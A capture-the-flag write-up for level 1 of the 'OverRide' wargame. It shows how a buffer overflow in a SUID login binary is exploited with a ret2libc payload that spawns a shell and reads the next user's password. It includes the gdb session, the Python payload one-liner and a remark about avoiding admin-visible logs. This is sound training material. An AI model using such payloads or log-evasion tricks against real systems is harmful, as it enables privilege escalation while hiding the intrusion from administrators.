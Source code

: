 # Level 1

## Vulnerability



## Context

We find a binary with owner ```level01``` and SUID.
```
level01@OverRide:~$ ls -l
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
```

When run, we see it prompts for a username (and probably later, a password).
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: POTUS
verifying username....

nope, incorrect username...
```

## Solution

### main() overview
Let's take a deeper look at the program.
See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level01/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

First ```main()``` prompts for a username and password, reading from stdin with ```fgets()```, and then calling ```verify_user_name()``` and ```verify_user_pass()```.

In each case, user input for username and password is compared with a hard value in memory and jumps to exit if not equal. 

In ```verify_user_name()```, we see that the username must be "dat_wil".

In ```verify_user_pass()```, we see that the password must be "admin".

However, when we try these values the program still quits. 
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```

### Exploit

First off, we can identify a vulnerability with ```fgets()``` to trigger a buffer overflow. 

Using our trusty [pattern generator and EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we crash the program and find we can overwrite the EIP at offset 80.
```
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

In the previous project, [Rainfall](https://github.com/anyashuka/Rainfall), our strategy was to copy shellcode to the stack and jump to it (a classic stack-based buffer overflow). 

We've found a more elegant solution to use here: a ret2libc ("return-to-libc") attack, which will overwrite the EIP return address with a particular libc function address directly. 

In this case, we''re going to overwrite the EIP with the address of ```system```, "/bin/sh", and ```exit()```.
Let's find those addresses. 
```
(gdb) b *main
Breakpoint 1 at 0x80484d0

(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()

(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:
- ```system()``` is at 0xf7e6aed0
- ```exit()``` is at 0xf7e5eb70
- "/bin/sh" is at 0xf7f897ec
Note: we will flip these for little endian!

Why bother add the ```exit()```? Because if we don't, then the shell will segfault upon exit – which will be recorded in the dmesg logs and visible to any system admin who looks... So basically, to erase our footsteps! 

### Build exploit

Let's build our attack payload:

[ 80 x "A" ] [ address of system ] [ address of exit ] [ address of "/bin/sh" ]

```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
``` 

## Recreate Exploited Binary

As user ```level02```, in ```/tmp```, create and compile ```level01_source.c```
```
level02@OverRide:/tmp$ gcc level01_source.c -o level01_source
```

Edit permissions including suid, then move the binary to home directory.
```
level02@OverRide:/tmp$ chmod u+s level01_source; chmod +wx ~; mv level01_source ~
```

Exit back to user ```level01``` and launch the program!
```
level01@OverRide:~$ ./level01_source
********* ADMIN LOGIN PROMPT *********
Enter Username:
dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
